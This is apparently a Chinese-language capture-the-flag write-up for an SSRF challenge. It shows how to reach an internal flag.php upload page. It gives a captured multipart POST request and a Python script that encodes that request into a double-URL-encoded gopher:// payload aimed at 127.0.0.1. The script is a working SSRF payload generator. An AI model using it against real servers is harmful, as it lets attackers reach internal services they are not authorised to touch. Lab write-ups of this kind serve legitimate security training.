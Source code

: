  

我们尝试访问 ?/url=127.0.0.1/flag.php

发现上传页面并没有提交按钮

我们可以通过查看源码，并在from表单中写入 submit  ，如下图：

```
<input type="submit" name="submit">
```

上传开启bp抓包，构造POST请求

```
POST /flag.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 292
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary1lYApMMA3NDrr2iY
 
------WebKitFormBoundary1lYApMMA3NDrr2iY
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain
 
SSRF Upload
------WebKitFormBoundary1lYApMMA3NDrr2iY
Content-Disposition: form-data; name="submit"
 
提交
------WebKitFormBoundary1lYApMMA3NDrr2iY--
```

用脚本进行url编码

```python
import urllib.parse
 
payload = \
"""POST /flag.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 292
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary1lYApMMA3NDrr2iY
------WebKitFormBoundary1lYApMMA3NDrr2iY
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain
SSRF Upload
------WebKitFormBoundary1lYApMMA3NDrr2iY
Content-Disposition: form-data; name="submit"
提交
------WebKitFormBoundary1lYApMMA3NDrr2iY--"""
 
#注意后面一定要有回车，回车结尾表示http请求结束
tmp = urllib.parse.quote(payload)
# print(tmp)
new = tmp.replace('%0A','%0D%0A')
# print(new)
result = 'gopher://127.0.0.1:80/'+'_'+new
result = urllib.parse.quote(result)
print(result)       # 这里因为是GET请求所以要进行两次url编码
```
